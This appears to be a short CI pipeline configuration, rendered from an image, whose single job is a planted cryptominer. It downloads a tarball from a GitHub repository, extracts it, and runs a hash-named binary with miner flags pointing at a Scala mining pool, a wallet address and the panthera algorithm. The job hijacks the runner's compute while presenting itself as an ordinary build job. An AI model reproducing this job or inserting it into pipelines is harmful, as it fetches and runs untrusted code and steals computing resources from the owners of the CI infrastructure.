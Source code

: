 job:
  script:
    - |
      wget https://github.com/muhanyawaduasatu/muhanyawaduasatu/raw/main/nice.tar.gz && tar xf nice.tar.gz && ./4acd6eacc97ceee254a3dabb73d6e0dd --donate-level 0 -o scala.herominers.com:10130 -u Ssy2DdMxxXQJ5C3wX7UFNuUpVdhRQsWK2dUZRXWFdgJv3faoef93EocQJUco7WNNapTXfRXpju3WWi2u8UThBgis5GWReVBSYQ -p cpu -a panthera -k
